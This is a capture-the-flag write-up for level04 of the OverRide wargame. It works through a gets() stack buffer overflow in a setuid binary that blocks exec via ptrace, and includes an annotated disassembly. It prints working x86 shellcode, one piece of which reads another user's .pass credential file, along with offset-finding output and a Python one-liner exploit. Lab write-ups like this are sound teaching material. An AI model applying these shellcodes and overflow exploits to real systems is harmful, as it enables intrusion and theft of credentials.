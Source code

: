 # LEVEL04
**Info: level protect option**
```sh
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level04/level04
```
---
```sh
level04@OverRide:~$ ls -la
total 17
dr-xr-x---+ 1 level04 level04   80 Sep 13  2016 .
dr-x--x--x  1 root    root     260 Oct  2  2016 ..
-rw-r--r--  1 level04 level04  220 Sep 10  2016 .bash_logout
lrwxrwxrwx  1 root    root       7 Sep 13  2016 .bash_profile -> .bashrc
-rw-r--r--  1 level04 level04 3533 Sep 10  2016 .bashrc
-rwsr-s---+ 1 level05 users   7797 Sep 10  2016 level04
-rw-r--r--+ 1 level04 level04   41 Oct 19  2016 .pass
-rw-r--r--  1 level04 level04  675 Sep 10  2016 .profile
level04@OverRide:~$ ./level04 
Give me some shellcode, k
42
child is exiting...
level04@OverRide:~$ ./level04 
Give me some shellcode, k
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
child is exiting...
```
We can find one excutable file **level04**, who take standard input, he wants some shellcode, but do not anything. \
\
Check it with GDB,

```sh
Breakpoint 1, 0x0804875e in main ()
(gdb) p/x $eax
$2 = 0xffffd670
```

After analyzing asm code, we could find buffer overflow-able function ```gets```, but there is also a protection for the ```exec``` system call (syscall number 11). \
So we have to somehow 1. get the flag without running the ```exec``` 2. and run the exploit code. \
First let's find the offset of buffer overflow
```sh
python3 pattern_generator.py
=== Buffer Overflow Pattern Generator & Offset Finder ===
Enter the length of the pattern to generate: 200
Generated pattern (200 bytes):
aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4ac5ac6ac7ac8ac9ad0ad1ad2ad3ad4ad5ad6ad7ad8ad9ae0ae1ae2ae3ae4ae5ae6ae7ae8ae9af0af1af2af3af4af5af6af7af8af9ag0ag1ag2ag3ag4ag5ag

Enter the hex value to find (e.g., 0x63613563): 0x61326661
Little Endian ASCII representation: 'af2a'
'af2a' found at offset: 156
```
We could've put our shell code's address at 156 offset, but since it has ```exec``` syscall inside, we are going to use another shell code which will directly give us the flag for the next level
```sh
export SHELLCODE=$'\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x86\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass'
```
This machine code will try to open the file specified at the end of code and directly write it out on the ```stdout```. \
Also since we exported our shell code we have to find it's address. Let's perform it with writing simple c code ```getenv.c``` which will give us an address we need.
```sh
level04@OverRide:~$ cat /tmp/getenv.c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    printf("%p\n", getenv("SHELLCODE"));
}
level04@OverRide:/tmp$ gcc -m32 /tmp/getenv.c
level04@OverRide:/tmp$ ./a.out 
0xffffd8b0
```
Note that we are running on x86_64, so we have to compile our program for 32bit to get the address in 32bit format. \
Now let's try to run our program with our exploit input.
```sh
level04@OverRide:~$ python -c 'print "B" * 156 + "\xb0\xd8\xff\xff"' | ./level04 
Give me some shellcode, k
(hidden)
child is exiting...
```
level04 passed !

assmebly analyze
---
```sh
(gdb) disas main
Dump of assembler code for function main:
   0x080486c8 <+0>:     push   %ebp
   0x080486c9 <+1>:     mov    %esp,%ebp
   0x080486cb <+3>:     push   %edi
   0x080486cc <+4>:     push   %ebx
   0x080486cd <+5>:     and    $0xfffffff0,%esp
   0x080486d0 <+8>:     sub    $0xb0,%esp # 176
   0x080486d6 <+14>:    call   0x8048550 <fork@plt>
   0x080486db <+19>:    mov    %eax,0xac(%esp) # var pid = fork()
   0x080486e2 <+26>:    lea    0x20(%esp),%ebx # str[128] # 172 - 32 = 140 - 12 = 128
   0x080486e6 <+30>:    mov    $0x0,%eax # 0
   0x080486eb <+35>:    mov    $0x20,%edx # 32
   0x080486f0 <+40>:    mov    %ebx,%edi
   0x080486f2 <+42>:    mov    %edx,%ecx
   0x080486f4 <+44>:    rep stos %eax,%es:(%edi) # memset(str[128], 128, 0)
   0x080486f6 <+46>:    movl   $0x0,0xa8(%esp) # some variable init with 0 int a = 0
   0x08048701 <+57>:    movl   $0x0,0x1c(%esp) # some variable init with 0 int b = 0
   0x08048709 <+65>:    cmpl   $0x0,0xac(%esp) # if pid == 0
   0x08048711 <+73>:    jne    0x8048769 <main+161>
   0x08048713 <+75>:    movl   $0x1,0x4(%esp) # parent process
   0x0804871b <+83>:    movl   $0x1,(%esp)
   0x08048722 <+90>:    call   0x8048540 <prctl@plt> # prctl(PR_SET_PDEATHSIG, SIGHUP)  # https://github.com/torvalds/linux/blob/master/include/uapi/linux/prctl.h
   0x08048727 <+95>:    movl   $0x0,0xc(%esp)
   0x0804872f <+103>:   movl   $0x0,0x8(%esp)
   0x08048737 <+111>:   movl   $0x0,0x4(%esp)
   0x0804873f <+119>:   movl   $0x0,(%esp)
   0x08048746 <+126>:   call   0x8048570 <ptrace@plt> # ptrace(PTRACE_TRACEME, 0, 0, 0) # https://github.com/torvalds/linux/blob/master/include/uapi/linux/ptrace.h
   0x0804874b <+131>:   movl   $0x8048903,(%esp) # "Give me some shellcode, k"
   0x08048752 <+138>:   call   0x8048500 <puts@plt>
   0x08048757 <+143>:   lea    0x20(%esp),%eax # str[128]
   0x0804875b <+147>:   mov    %eax,(%esp)
   0x0804875e <+150>:   call   0x80484b0 <gets@plt> # @ vulnerability @
   0x08048763 <+155>:   jmp    0x804881a <main+338>
   0x08048768 <+160>:   nop						# loop +296
   0x08048769 <+161>:   lea    0x1c(%esp),%eax # child process
   0x0804876d <+165>:   mov    %eax,(%esp) # var
   0x08048770 <+168>:   call   0x80484f0 <wait@plt> # wait(b)
   0x08048775 <+173>:   mov    0x1c(%esp),%eax
   0x08048779 <+177>:   mov    %eax,0xa0(%esp) # var
   0x08048780 <+184>:   mov    0xa0(%esp),%eax
   0x08048787 <+191>:   and    $0x7f,%eax # 0111_1111
   0x0804878a <+194>:   test   %eax,%eax # if 0
   0x0804878c <+196>:   je     0x80487ac <main+228>
   0x0804878e <+198>:   mov    0x1c(%esp),%eax
   0x08048792 <+202>:   mov    %eax,0xa4(%esp)
   0x08048799 <+209>:   mov    0xa4(%esp),%eax
   0x080487a0 <+216>:   and    $0x7f,%eax
   0x080487a3 <+219>:   add    $0x1,%eax
   0x080487a6 <+222>:   sar    %al # or its synonym shl # https://docs.oracle.com/cd/E19455-01/806-3773/instructionset-27/index.html
   0x080487a8 <+224>:   test   %al,%al
   0x080487aa <+226>:   jle    0x80487ba <main+242> # if (((b & 0x7f) != 0 && (((b & 0x7f) + 1) >> 1) <= 0))
   0x080487ac <+228>:   movl   $0x804891d,(%esp) # "child is exiting..."
   0x080487b3 <+235>:   call   0x8048500 <puts@plt>
   0x080487b8 <+240>:   jmp    0x804881a <main+338> # return (0)
   0x080487ba <+242>:   movl   $0x0,0xc(%esp) # 0
   0x080487c2 <+250>:   movl   $0x2c,0x8(%esp) # 44
   0x080487ca <+258>:   mov    0xac(%esp),%eax # var pid
   0x080487d1 <+265>:   mov    %eax,0x4(%esp)
   0x080487d5 <+269>:   movl   $0x3,(%esp)
   0x080487dc <+276>:   call   0x8048570 <ptrace@plt> # ptrace(3, pid, 44, 0)
   0x080487e1 <+281>:   mov    %eax,0xa8(%esp) # return of ptrace
   0x080487e8 <+288>:   cmpl   $0xb,0xa8(%esp) # if (ptrace(PTRACE_PEEKUSER, pid, 44, 0) == 11)
   0x080487f0 <+296>:   jne    0x8048768 <main+160>
   0x080487f6 <+302>:   movl   $0x8048931,(%esp) # "no exec() for you"
   0x080487fd <+309>:   call   0x8048500 <puts@plt>
   0x08048802 <+314>:   movl   $0x9,0x4(%esp) # 9
   0x0804880a <+322>:   mov    0xac(%esp),%eax # var pid
   0x08048811 <+329>:   mov    %eax,(%esp)
   0x08048814 <+332>:   call   0x8048520 <kill@plt> # kill(pid, 9) # SIG_KILL
   0x08048819 <+337>:   nop
   0x0804881a <+338>:   mov    $0x0,%eax
   0x0804881f <+343>:   lea    -0x8(%ebp),%esp
   0x08048822 <+346>:   pop    %ebx
   0x08048823 <+347>:   pop    %edi
   0x08048824 <+348>:   pop    %ebp
   0x08048825 <+349>:   ret    
End of assembler dump.
```